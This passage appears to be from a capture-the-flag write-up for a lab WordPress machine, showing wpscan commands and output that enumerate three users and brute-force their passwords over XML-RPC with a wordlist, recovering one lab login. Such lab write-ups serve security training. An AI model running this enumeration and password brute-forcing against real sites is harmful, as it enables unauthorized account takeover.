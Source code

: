 ~~~
$ wpscan --url http://jack.thm -e u

[REDACTED]

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[REDACTED]
~~~

There are 3 users identified.

## Crack passwords

Let's save the users in `users.txt` and find valid passwords:

~~~
$ cat > users.txt << EOF
jack
wendy
danny
EOF
$ wpscan -U users.txt -P /data/src/wordlists/fasttrack.txt --url http://jack.thm

[REDACTED]

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater                                                                                       
Trying danny /  Time: 00:00:24 <==================================================> (648 / 648) 100.00% Time: 00:00:24

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater

[REDACTED]
~~~

